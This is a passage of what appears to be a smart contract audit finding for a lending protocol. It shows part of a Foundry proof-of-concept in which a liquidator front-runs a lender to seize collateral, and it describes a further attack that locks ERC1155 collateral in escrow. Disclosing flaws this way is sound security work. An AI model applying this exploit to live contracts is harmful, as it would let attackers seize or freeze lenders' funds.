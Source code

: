 ```solidity
    collateralManager.withdraw(bidId);

    // Wait until the bid is liquidatable
    // The liquidator can frontrun the lender and update the bid amount again to continue the attack for one day
    vm.warp(100000);

    // Prepare some assets to pay for the liquidation
    daiMock.transfer(address(liquidator), 100);
    liquidator.addAllowance(address(daiMock), address(tellerV2), 100);

    // Verify that the liquidator doesn't have any WETH token (bid collateral)
    assertEq(wethMock.balanceOf(address(liquidator)), 0);

    // The liquidator sets the amount to its original value to perform the liquidation
    vm.startPrank(address(liquidator));
    info._amount = 10;
    collateralManager.commitCollateral(bidId, info);
    tellerV2.liquidateLoanFull(bidId);
    vm.stopPrank();

    // The liquidator ends up with the collateral that the lender was trying to withdraw
    assertEq(wethMock.balanceOf(address(liquidator)), 10);
}
```

### Attack Vector 3 - Adversary can lock collateral in escrow contract

Similar to the previous attack vector, by setting `amount = 1` for the collateral bid, and adversary can lock all the rest of the collateral for a bid in the escrow contract.

The result is that this time the lender will be able to withdraw the collateral, but just `amount = 1`. The rest will be locked, and subsequent withdraw calls will fail, as the bid will change its state.

This only works for ERC1155 tokens, as it uses the `_amount` passed by the `CollateralManager`, instead of the escrow balance. The ERC20 on the other hands will return the whole balance, as it uses the escrow balance.

```solidity
IERC1155Upgradeable(_collateralAddress).safeTransferFrom(
    address(this),
    _recipient,
    _collateral._tokenId,
    _amount,
    data
);
```

## Impact
